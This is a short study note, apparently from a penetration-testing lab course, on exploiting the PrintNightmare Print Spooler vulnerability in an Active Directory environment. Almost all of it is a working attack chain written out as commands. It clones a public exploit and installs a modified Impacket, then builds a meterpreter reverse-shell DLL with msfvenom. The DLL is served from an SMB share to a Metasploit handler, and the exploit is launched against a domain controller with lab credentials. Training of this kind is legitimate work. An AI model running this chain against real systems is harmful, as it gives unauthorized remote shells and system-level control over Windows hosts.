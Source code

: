 # PrintNightmare
----
- `PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) **found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems.**
- Using this vulnerability for **local privilege escalation** is covered in the [Windows Privilege Escalation](https://academy.hackthebox.com/course/preview/windows-privilege-escalation) module, but is also important to practice within the context of Active Directory environments for gaining **remote access to a host.**
- In this case, we will be using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit. We can use Git to clone it to our attack host:

## Cloning the Exploit
- `git clone https://github.com/cube0x0/CVE-2021-1675.git`
## Install cube0x0's Version of Impacket -  ==CAREFUL==
- `pip3 uninstall impacket`
- `git clone https://github.com/cube0x0/impacket`
- `cd impacket`
- `python3 ./setup.py install`
- We can **use `rpcdump.py` to see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.**

## Enumerating for MS-RPRN
- `rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'`
- ![[Pasted image 20250813065512.png]]

## Generating a DLL Payload
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll`
## Creating a Share with smbserver.py
- `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll`
## Configuring & Starting MSF multi/handler
- `use exploit/multi/handler`
- `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
- `set LHOST 172.16.5.225`
- `set LPORT 8080`
- `run`

## Running the Exploit
- `sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'`
